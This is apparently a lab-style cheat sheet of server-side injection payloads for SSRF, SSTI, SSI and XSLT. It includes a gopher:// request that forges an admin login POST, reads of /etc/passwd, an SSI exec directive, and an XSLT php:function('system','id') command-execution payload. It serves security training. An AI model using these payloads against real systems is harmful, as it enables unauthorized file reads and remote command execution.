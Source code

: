 ## SSRF

| **Exploitation** |                                                                                                                                                                                                      |
| ---------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
|                  | internal portscan by accessing ports on localhost                                                                                                                                                    |
|                  | accessing restricted endpoints                                                                                                                                                                       |
| **Protocols**    |                                                                                                                                                                                                      |
|                  | `http://127.0.0.1/`                                                                                                                                                                                  |
|                  | `file:///etc/passwd`                                                                                                                                                                                 |
|                  | `gopher://dateserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20dateserver.htb%0D%0AContent-Length:%2013%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Aadminpw%3Dadmin` |

## SSTI

| **Exploitation** |                                                             |
| ---------------- | ----------------------------------------------------------- |
|                  | Templating Engines are used to dynamically generate content |
| **Test String**  |                                                             |
|                  | `${{<%[%'"}}%\.`                                            |
## SSI Injection - Directives

| Print variables         | `<!--#printenv -->`                                  |
| ----------------------- | ---------------------------------------------------- |
| Change config           | `<!--#config errmsg="Error!" -->`                    |
| Print specific variable | `<!--#echo var="DOCUMENT_NAME" var="DATE_LOCAL" -->` |
| Execute command         | `<!--#exec cmd="whoami" -->`                         |
| Include web file        | `<!--#include virtual="index.html" -->`              |

## XSLT Injection

### Elements

| `<xsl:template>` | This element indicates an XSL template. It can contain a `match` attribute that contains a path in the XML-document that the template applies to                |
| ---------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `<xsl:value-of>` | This element extracts the value of the XML node specified in the `select` attribute                                                                             |
| `<xsl:for-each>` | This elements enables looping over all XML nodes specified in the `select` attribute                                                                            |
| `<xsl:sort>`     | This element specifies the node to sort elements in a for loop by in the `select` argument. Additionally, a sort order may be specified in the `order` argument |
| `<xsl:if>`       | This element can be used to test for conditions on a node. The condition is specified in the `test` argument                                                    |
### Injection Payloads

| **Information Disclosure** |                                                                             |
| -------------------------- | --------------------------------------------------------------------------- |
|                            | `<xsl:value-of select="system-property('xsl:version')" />`                  |
|                            | `<xsl:value-of select="system-property('xsl:vendor')" />`                   |
|                            | `<xsl:value-of select="system-property('xsl:vendor-url')" />`               |
|                            | `<xsl:value-of select="system-property('xsl:product-name')" />`             |
|                            | `<xsl:value-of select="system-property('xsl:product-version')" />`          |
| **LFI**                    |                                                                             |
|                            | `<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />`           |
|                            | `<xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />` |
| **RCE**                    |                                                                             |
|                            | `<xsl:value-of select="php:function('system','id')" />`                     |